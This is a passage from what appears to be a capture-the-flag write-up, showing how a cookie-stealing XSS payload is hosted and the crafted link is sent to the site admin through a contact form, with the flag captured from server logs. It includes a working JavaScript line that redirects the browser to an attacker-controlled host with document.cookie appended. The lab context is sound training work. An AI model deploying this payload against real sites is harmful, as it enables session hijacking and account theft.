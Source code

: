 Now that we can confirm the page is attempting to load a file, we need to create a javascript file. We could set up a beef hook, but that is overkill to get a simple cookie. Instead a redirect with the cookie in the URL will be good. That means the code that will go into the file named ".js" in the root of our webserver will look something like this:

```javascript
window.location = "http://192.168.1.100/?fake=" + document.cookie;
```

Once we load the page with the XSS vulnerability, we can see that a redirect immediately occurs and appends the "?fake=" to the URL.

 ![With Redirect](/assets/img/ccandbc/11bc.png)

Our browser will not have anything in document.cookie because we never visited a page that set a cookie. But if we did, the parameter would contain a cookie.

This is where the first flag comes in. the /contact page contains a page to send an email to the admin with any issues you might be experiencing. We will send them the link with the XSS that we generated above:

 ![Contact Submit](/assets/img/ccandbc/12bc.png)

And if we watch our server logs, we will see a request that contains the flag:

 ![Hidden flag](/assets/img/ccandbc/13bc.png)

flag{ILoveLinks!ClickClickClick!}


